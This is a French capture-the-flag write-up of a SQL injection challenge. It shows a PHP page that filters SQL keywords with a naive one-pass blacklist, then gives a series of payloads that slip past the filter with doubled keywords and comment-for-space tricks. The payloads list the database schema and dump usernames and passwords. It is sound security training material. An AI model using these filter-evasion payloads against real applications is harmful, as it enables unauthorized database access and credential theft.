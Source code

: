 # HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échappent au control des fonctions *preg_replace* et *strpos*
Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```

Rendu:

![Rendu](Images/First-payload.png)

Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```

Rendu:

![Rendu](Images/vuln-columns.png)

On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```

Rendu:

![Rendu](Images/sql-version.png)

La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```

Rendu:

![Rendu](Images/database-name.png)

Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu:

![Rendu](Images/tables-name.png)

Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:

![Rendu](Images/column_name.png)

Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous avons d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/flag.png)

Nous obtenons ainsi le flag

```FLAG: CTF_Y0uAreAwas0m3_b__t___es```

Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Nous sommes alors obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/complete.png)
